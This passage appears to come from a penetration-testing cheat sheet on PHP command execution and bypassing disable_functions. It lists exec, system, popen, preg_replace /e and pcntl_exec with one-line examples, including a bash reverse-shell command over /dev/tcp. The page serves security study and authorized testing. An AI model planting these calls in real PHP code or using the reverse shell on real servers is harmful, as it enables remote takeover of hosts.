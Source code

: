 # PHP - Useful Functions & disable\_functions/open\_basedir bypass

## PHP Command & Code Execution

### PHP Command Execution

**exec** - Returns last line of commands output

```bash
echo exec("uname  -a");
```

**passthru** - Passes commands output directly to the browser

```bash
echo passthru("uname -a");
```

**system** - Passes commands output directly to the browser and returns last line

```bash
echo system("uname -a");
```

**shell\_exec** - Returns commands output

```bash
echo shell_exec("uname -a");
```

\`\` \(backticks\) - Same as shell\_exec\(\)

```bash
echo `uname -a`
```

**popen** - Opens read or write pipe to process of a command

```bash
echo fread(popen("/bin/ls /", "r"), 4096);
```

**proc\_open** - Similar to popen\(\) but greater degree of control

```bash
proc_close(proc_open("uname -a",array(),$something));
```

**preg\_replace**

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

**pcntl\_exec** - Executes a program \(by default in modern and not so modern PHP you need to load the `pcntl.so` module to use this function\)

```bash
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
```
